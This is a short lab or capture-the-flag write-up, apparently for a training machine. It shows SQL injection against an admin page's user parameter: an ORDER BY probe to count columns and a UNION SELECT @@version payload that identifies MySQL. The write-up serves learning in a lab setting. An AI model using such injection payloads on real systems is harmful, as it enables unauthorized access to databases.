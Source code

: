 <figure><img src=".gitbook/assets/image (239).png" alt=""><figcaption></figcaption></figure>

### User access

On clicking on any user there is a SQLI vulnerability.

<figure><img src=".gitbook/assets/image (240).png" alt=""><figcaption></figcaption></figure>

#### SQLI

Testing for sql injection.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# number of columns is 4 here since [5] gives an error.
http://10.10.21.37/admin?user=2 ORDER BY 4 -- - 
```
{% endcode %}

<figure><img src=".gitbook/assets/image (241).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# after hours of trial and error i was able to get it by using "-1" :(

# identify which column is text.
http://10.10.180.141/admin?user=-1 UNION SELECT @@version,NULL,NULL,NULL--
# The DB is mysql.
```
{% endcode %}
